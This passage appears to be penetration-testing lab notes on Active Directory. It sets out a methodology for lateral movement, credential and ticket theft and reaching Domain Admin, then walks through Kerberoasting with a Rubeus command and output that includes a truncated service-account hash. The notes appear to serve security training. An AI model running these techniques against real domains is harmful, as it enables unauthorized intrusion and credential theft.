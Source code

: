 # Methodology
- Our goal is to **find as many misconfigurations** as possible in the domain and reach DA privileges.
- We will try to move laterally on the domain by compromising and impersonating domain accounts. For each account compromised, we will perform a thorough enumeration of their **Rights** (what those accounts can access), their **Privileges** (what privileges those accounts have in the resources they can access) and their **Permissions** (what actions those accounts can perform in other objects of the domain).
- We will do that by leveraging the information we have gathered during the enumeration phase, as well as by gathering additional information along the way. BloodHound can be very helpful to visualize much of the gathered intel.
- In each machine we compromise we will attempt to steal credentials (password/hashes) and tokens (tickets/certificates).
- For each user account we compromise we will check possible access to interesting file shares in the domain, since many times those shares host interesting files.
- For each attack we will use various tools.
# 1. Kerberoasting
- Kerberoasting should be one of the first things we should do when we have a low-privileged access on the domain.
- In most situations, services accounts are machine accounts, which have very complex, long, and random passwords.
- If a user account, with a human-defined password, has a SPN set, attackers can request a ST for this service and attempt to crack it offline.
- Many times those accounts are high-privileged.
### 1.1.1 Rubeus
```powershell
PS C:\Auditor> .\Rubeus.exe kerberoast /domain:us.techcorp.local /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : us.techcorp.local
[*] Searching path 'LDAP://US-DC.us.techcorp.local/DC=us,DC=techcorp,DC=local' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 2


[*] SamAccountName         : serviceaccount
[*] DistinguishedName      : CN=serviceaccount,CN=Users,DC=us,DC=techcorp,DC=local
[*] ServicePrincipalName   : USSvc/serviceaccount
[*] PwdLastSet             : 7/16/2019 12:03:27 AM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*serviceaccount$us.techcorp.local$USSvc/serviceaccount@us.techcorp.local*$3607...


```
